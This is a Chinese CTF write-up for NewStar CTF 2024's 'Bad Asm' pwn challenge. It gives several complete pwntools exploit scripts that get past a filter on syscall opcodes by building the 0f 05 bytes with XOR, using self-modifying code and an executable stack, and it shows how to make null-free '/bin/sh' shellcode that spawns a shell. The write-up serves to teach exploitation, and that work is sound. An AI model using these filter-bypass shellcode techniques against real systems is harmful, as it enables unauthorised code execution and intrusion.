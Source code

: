 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Bad Asm

程序过滤 `syscall` / `sysenter` / `int 0x80` 的汇编指令的机器码。

`strcpy` 限制了 shellcode 的机器码中不能出现 `0x00`.

开启的可执行的段具有写的权限，用异或搓出来 syscall 的机器码之后用 `mov` 写入到 shellcode 后面，中间用 `nop` 连接一下就行了。

由于程序清空了 `rsp` `rbp` 寄存器，我们需要恢复一下 `rsp` 的值，任意一个可读写的段即可，否则 `push` 操作会寄掉。

可以用异或先把 syscall 的机器码插入到当前 shellcode 的后面来执行 `read` 的 syscall，利用 `read` 在旧的 shellcode 后面插入 `execve("/bin/sh", 0, 0)` 的 shellcode，第二次输入的 payload 中 `0x42` 个 `a` 的作用是覆盖掉旧的 shellcode，毕竟执行过了也没用了。

恢复 `rsp` 的作用是为了能够正常执行 `push` `pop` 指令，这里 `push` `pop` 指令位于 `shellcraft.sh()` 生成的 shellcode 中。否则其生成的 shellcode 无法正常执行。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 使用 syscall 执行 read(0, code, 0x3fff)
mov rsp, rdi
mov rax, rdi
add sp, 0x0848 ; // 从开头到这里的作用是给 rsp 一个合法值，使 push/pop 指令能够正常执行。同时设置 rax 的值方便后面往当前 shellcode 末尾拼接上 syscall 指令的机器码。

mov rsi,rdi
mov dx, 0x3fff ; // 这两行作用是设置 rsi rdx 寄存器

mov cx, 0x454f
xor cx, 0x4040 ; // 这两行作用是用异或搓出来 0f 05 (syscall 的机器码)
add al, 0x40
mov [rax], cx  ; // rax原本指向的是当前段的开始位置，加上一个偏移，在之后指向的地方写入 0f 05，即 syscall，相当于拼接到当前 shellcode 后面。

xor rdi, rdi
xor rax, rax   ; // 设置 read 的系统调用号 0，设置 rdi 寄存器
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90')) # \x90是nop指令的机器码，用于连接上面的shellcode和写入的syscall，使程序能正常执行。

pause()
p.send(b'a'*0x42+asm(shellcraft.sh())) # 0x42个a正好覆盖了syscall，之后拼接新的shellcode会继续执行本次写入的新的shellcode
p.interactive()
```

除了异或的方法，我们可以用另一种方法布置 syscall 的机器码。

题目检查 syscall 的时候采用的方法是检测相邻两个字节，所以我们可以将两个字节分别用一个汇编指令写入到内存中，比如用 `mov`，这样我们就可以将其机器码 `0xf 0x5` 拆开，而不是连续的字节，这样也可以通过检查。

```python
mov byte ptr [r8 + 0x17], 0xf
mov byte ptr [r8 + 0x18], 0x5
```

最后保证控制执行流执行到写入的 `0f05` 那里就行了。

下面的 EXP 中直接异或搓了一个 `execve("/bin/sh", 0, 0)`，这样也是可以的。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop，任意一个可读写段即可，我们这里刚好有rdi中存储的 shellcode 的段的起始位置，正好这个段有读写权限，就直接拿来在 0x848 偏移的位置当作栈顶了（加偏移是为了防止某些操作破坏写入的 shellcode）
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; // 异或搓出来'/bin/sh\x00'(正好 8 字节，一个寄存器能存下) 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov ax, 0x454f
xor ax, 0x4040
mov rsi, rdi
add sil, 0x40
mov [rsi], ax  ; // 搓出来 syscall 的机器码 0f 05 并且拼接到当前 shellcode 后面。

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90'))
p.interactive()
```

除此之外，由于我们把栈放在可执行段上面了，我们可以直接异或整出来 syscall 的机器码然后 push 到栈上面，最后 `jmp rsp` 即可。由于这种方法我们并不依赖 `nop` 指令进行连接，在送 Payload 的时候可以去掉 `ljust` 了。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; // 异或搓出来 '/bin/sh\x00' 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov rdi, rsp   ; // 设置 rdi，指向之前push到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; //设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''

p.sendafter("Input your Code :", asm(shellcode))

p.interactive()
```

在把 `/bin/sh\x00` push 到栈上面的时候，我们为了清除最后的 `0x00`，采用了异或的方法。除了这种方法外我们可以调整一下这个字符串，比如我们可以改为使用 `/bin///sh`，`shellcraft.sh()` 生成的 shellcode 采用的就是这种方法。

按照这种方法更改的 shellcode，也是可以拿到 shell 的。

```python
shellcode='''
; // 目标: 执行 execve("/bin///sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给rsp一个合法值，使程序能正常执行push/pop

push 0x68
mov rax, 0x732f2f2f6e69622f
push rax       ; // 将 '/bin///sh' push 到栈上面，最后一个字符 h 是第 6 行 push 的，高位默认填充为 0，此时就不用异或了

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''
```
